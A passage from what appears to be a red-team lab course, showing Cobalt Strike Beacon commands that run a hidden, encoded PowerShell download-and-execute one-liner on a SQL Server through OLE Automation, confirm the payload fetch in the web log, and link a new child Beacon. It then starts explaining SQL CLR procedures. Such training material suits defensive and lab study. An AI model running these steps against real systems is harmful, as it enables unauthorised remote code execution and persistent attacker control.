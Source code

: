 Then execute the one-liner on the target.

```powershell
beacon> sql-olecmd lon-db-1 "cmd /c powershell -w hidden -nop -enc [ONE-LINER]"

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] OLE Automation Procedures is enabled
[*] Executing system command...

[*] Setting sp_oacreate to "tltsphje"
[*] Setting sp_oamethod to "ckilexuf"
[*] Command executed
[*] Destoryed "tltsphje" and "ckilexuf"

[*] Disconnecting from server
```

Open the web log (**View > Web Log**) and you should see a hit for the hosted payload.  If not, go back and check things like your reverse port forward and firewall rule.

```powershell
04/06 15:16:43 visit (port 80) from: 127.0.0.1
	Request: GET /b
	page Scripted Web Delivery (powershell)
	null
```

You should then be able to link to the new Beacon.

```powershell
beacon> link lon-db-1 TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337
[+] established link to child beacon: 10.10.120.20
```

Finally, return OLE Automation to its original state.

```powershell
beacon> sql-disableole lon-db-1
```

### SQL Common Language Runtime

SQL Server 2005 introduced a feature called SQL Common Language Runtime (CLR), which integrated the .NET Framework.  This allows stored procedures to be written in any managed .NET language (such as C# and VB.NET) and registered with the database.  Thereafter, they can be invoked like any normal procedure.

For a method written in C# to be compatible with SQL CLR, it must be in a partial class called  _StoredProcedures_ and decorated with the [SqlProcedureAttribute](https://learn.microsoft.com/en-us/dotnet/api/microsoft.sqlserver.server.sqlprocedureattribute).  For example:

```C#
public partial class StoredProcedures
{
    [SqlProcedure]
    public static void MyProcedure()
    {
        // my code here
    }
}
```
